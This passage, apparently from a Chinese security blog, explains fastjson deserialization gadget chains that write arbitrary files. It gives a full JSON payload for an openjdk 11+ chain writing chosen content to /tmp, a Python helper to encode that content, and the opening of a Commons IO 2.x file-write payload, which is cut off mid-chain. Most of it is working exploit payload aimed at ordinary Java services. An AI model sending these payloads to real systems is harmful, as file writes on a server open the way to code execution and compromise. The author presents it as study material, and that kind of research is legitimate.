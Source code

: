 
### commons-io写文件
首先是一条 openjdk >= 11 的读写链
>这里分享一条我找到的不需要三方库的链, 注意虽然不需要三方库, 但只能在 openjdk >= 11 下利用, 因为只有这些版本没去掉符号信息. fastjson 在类没有无参数构造函数时, 如果其他构造函数是有符号信息的话也是可以调用的, 所以可以多利用一些内部类, 但是 openjdk 8, 包括 oracle jdk 都是不带这些信息的, 导致无法反序列化, 自然也就无法利用. 所以相对比较鸡肋, 仅供学习. orz

```json
{
    "@type": "java.lang.AutoCloseable",
    "@type": "sun.rmi.server.MarshalOutputStream",
    "out": {
        "@type": "java.util.zip.InflaterOutputStream",
        "out": {
           "@type": "java.io.FileOutputStream",
           "file": "/tmp/asdasd",
           "append": true
        },
        "infl": {
           "input": {
               "array": "eJxLLE5JTCkGAAh5AnE=",
               "limit": 14
           }
        },
        "bufLen": "100"
    },
    "protocolVersion": 1
}
```
这里如何构造文件内容呢，可以使用python进行构造
```python
from itsdangerous import base64_encode
import zlib
cc='Test123'.encode()
ccc=zlib.compress(cc)
print(len(ccc))
print(base64_encode(ccc))
```
![](https://img-blog.csdnimg.cn/cd44723d3a1f42d495b95aaf6e7f3e02.png)

然后修改array和limit即可写入文件，append为false是覆盖内容，为true是追加内容
![](https://img-blog.csdnimg.cn/9fca361d11ec402faf8c7c400c029ecf.png)

可以看到成功写入文件，但是由于版本限制的问题过于鸡肋

最后voidfyoo师傅找到了Commons IO 2.x的写文件链
注意这里写入内容的长度必须要>8192，不然会失败，并且实际写入的内容只有前8192个字符，后面的不会写入
commons-io 2.0 - 2.6 版本：
```json
{
  "x":{
    "@type":"com.alibaba.fastjson.JSONObject",
    "input":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.input.ReaderInputStream",
      "reader":{
        "@type":"org.apache.commons.io.input.CharSequenceReader",
        "charSequence":{"@type":"java.lang.String""aaaaaa...(长度要大于8192，实际写入前8192个字符)"
      },
      "charsetName":"UTF-8",
      "bufferSize":1024
    },
    "branch":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.output.WriterOutputStream",
```